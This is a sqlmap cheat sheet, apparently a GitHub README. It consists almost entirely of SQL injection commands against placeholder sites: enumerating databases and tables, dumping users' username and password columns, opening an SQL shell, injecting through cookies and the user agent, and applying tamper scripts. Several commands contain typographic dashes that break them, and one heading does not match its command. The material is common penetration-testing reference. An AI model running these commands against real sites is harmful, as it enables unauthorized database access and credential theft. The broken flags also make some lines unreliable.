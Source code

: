 # Cheat Sheet

**Easy Scanning option**
<pre>sqlmap -u "http://testsite.com/login.php"</pre>

**List all databases at the site**
<pre>sqlmap -u "http://testsite.com/login.php" --dbs</pre>

**List all tables in a specific database**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db --tables</pre>

**List all columns in a table**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump</pre>

**Dump only selected columns**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
</pre>

**Dump a table from a database when you have admin credentials**
<pre>sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump
</pre>

**Add Technique**
<pre>sqlmap -u "http://testsite.com/home.php?id=" --dbs --technique=U -p "id"</pre>

**Get SQL Shell**
<pre>sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell </pre>

**Cookie Injection**
<pre>sqlmap --cookie="user_id=1" -u "http://localhost/index.php" -p "user_id" --level 3 </pre>

**User Agent Injection**
<pre>sqlmap  -u "http://localhost/index.php" --level 3 </pre>

**Apply custom tamper script**

Create a tamper script called "mytamper.py" in the /usr/share/sqlmap/tamper

<pre>sqlmap -u "http://2.challenge.sqli.site/view_book.php?id=3" --cookie="userchl2_info=" -p userchl2_info --level=2 --dbms=mysql --tamper=mytamper --banner</pre>

# Switches

**--user-agent**

**--referer**

**--headers**

**--technique= U | B | E**

